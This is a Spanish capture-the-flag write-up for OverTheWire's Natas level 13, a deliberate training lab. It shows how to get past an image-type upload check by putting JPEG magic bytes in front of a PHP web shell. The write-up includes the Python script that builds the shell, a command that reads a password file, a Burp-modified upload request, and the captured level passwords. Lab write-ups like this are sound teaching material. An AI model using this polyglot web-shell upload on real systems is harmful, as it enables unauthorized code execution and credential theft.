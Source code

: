 #Natas Level 12 → Level 13

Username: natas13

URL:      http://natas13.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas13.natas.labs.overthewire.org** 
- **Usuario    : natas13**
- **Contraseña : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY**

La contraseña la hemos sacado del nivel anterior.

Accedemos a la página y nos muestra un mensaje parecido a la prueba anterior indicando que solamente podemos subir ficheros **JPG** 

```html
For security reasons, we now only accept image files!
Choose a JPEG to upload (max 1KB):
```

Vamos a ver si ha cambiado el código fuente desde la prueba anterior.

```php
<?
...
if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
...
```

En principio todas las demás funciones son iguales menos una parte del código de arriba que comprueba si el fichero subido es un fichero **JPG**

```php
...
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) 
{ 
        echo "File is not an image"; 
}
...
```

Bueno, en este caso tenemos que **engañar** a la función **exif_imagetype()** para que acepte el **phpShell.php** como imagen.

¿Y como hacemos eso?

Primero que nada vamos a ver que hace exactamente la funcion **exif_imagetype()**

Vamos a la página oficial de [PHP](http://php.net/docs.php) y miramos la documentación para la función [exif_imagetype](http://php.net/manual/es/function.exif-imagetype.php)

Leemos la documentación y parece que solamente **lee** los **primeros bytes** del fichero para determinar de que tipo es.

```php
exif_imagetype

(PHP 4 >= 4.3.0, PHP 5, PHP 7)
exif_imagetype — Determinar el tipo de una imagen

Descripción 

int exif_imagetype ( string $filename )
exif_imagetype() lee los primeros bytes de una imagen y comprueba su firma.
```

Ahora la pregunta es:
- ¿Cómo **cambiamos** los **primeros bytes** del fichero **phpShell.php** para que sea un **JPG**? 
- ¿Cómo sabemos que **parametro** tenemos que escribir en los **primeros bytes** del fichero para que el **fichero.php** parezca un **JPG**?

Vamos por partes. Primero tenemos que saber como identifica la función **exif_imagetype()** que un fichero es de un tipo u otro leyendo lo **primeros bytes**. 

Buscamos en **Google** acerca de los primeros bytes de los ficheros y nos encontramos con una web [Magic Numbers](https://en.wikipedia.org/wiki/List_of_file_signatures) que nos hablan de los **primero bytes** de distintos ficheros (JPG,PNG,ZIP,...) que al parecer se llaman **MAGIC NUMBERS**

A nosotros nos interesa el valor del fichero **JPG**

```html
jpeg	JPEG raw or in the JFIF or Exif file format	0	

Primero Bytes -> FF D8 FF E0  
Contenido ->nn nn 
Últimos bytes -> 4A 46 49 46 00 01

```

Por lo tanto  tenemos que cambiar los **primeros bytes** del fichero **phpShell.php** a:

```hex
FFD8 FFE0
```

Podemos utilizar un **Editor Hexadecimal** para cambiarle los primeros bytes o hacer un **Script** en **Python** que nos ayude a escribir eso bytes en el fichero.

El script en **Python** es bastante sencillo de hacer, por lo que lo hacemos así :smile:

Le llamamos **phpShellPython.py** 

```python
fichero = open('phpShell.php','w')  
fichero.write('\xFF\xD8\xFF\xE0' + '<? passthru("cat /etc/natas_webpass/natas14"); ?>')  
fichero.close()
```

- 1 Abrimos el fichero **phpShell.php** en modo **escritura**
- 2 Escribimos los **primeros bytes** -> **FFD8** al fichero
- 3 Seguimos escribiendo nuestro código para que nos devuelva la contraseña
    - ```php <? passthru("cat /etc/natas_webpass/natas14"); ?> ``` 
- 4 Cerramos el fichero
    
Abrimos el editor **nano** y escribimos el código. A continuación lanzamos el script con el comando:

```bash
python phpShellPython.py
```

Bueno ya tenemos el fichero **phpShell.php** recién salido del horno con los **primeros bytes** escritos con el valor **FFD8 FFE0** y ahora solo nos queda realizar las mismas acciones que en la prueba anterior. 

Configuramos el **Proxy** a **localhost:8080** en el navegador y arrancamos el **BURP** para interceptar el tráfico que enviamos y poder modificarlo posteriormente y saltarnos los controles de acceso.

Interceptamos el tráfico y nos fijamos en el valor **phvidqtoy7.jpg** 

```html
POST /index.php HTTP/1.1
Host: natas13.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas13.natas.labs.overthewire.org/
Authorization: Basic bmF0YXMxMzpqbUxUWTBxaVBaQmJhS2M5MzQxY3FQUVpCSnY3TVFiWQ==
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------453852881298197434201962635
Content-Length: 531

-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="filename"

phvidqtoy7.jpg
-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="uploadedfile"; filename="phpShell.php"
Content-Type: application/x-php

ÿØÿà<? passthru("cat /etc/natas_webpass/natas14"); ?>
-----------------------------453852881298197434201962635--

````

Cambiamos el valor de ese campo:

```php
phvidqtoy7.jpg -> phpShell.php
```

Quedando el código así:

```html
...
-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="filename"

phpShell.php
...
```

Una vez modificado, pulsamos **FORWARD** en **BURP** y vemos que hemos pasado el filtro correctamente :smile:

```html
The file upload/7nu704t5gn.php has been uploaded
```

Accedemos a la [URL](http://natas13.natas.labs.overthewire.org/upload/7nu704t5gn.php) y nos muestra la contraseña del siguiente nivel :sunglases: :beer:

```html
http://natas13.natas.labs.overthewire.org/upload/7nu704t5gn.php
```

Texto mostrado:

```html
ÿØÿàLg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

NOTA: En el texto que nos ha aparecido, vemos unos caracteres raros **ÿØÿà** pero no le hacemos caso y cogemos el resto de la cadena

**FLAG** = {Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1}










 












 




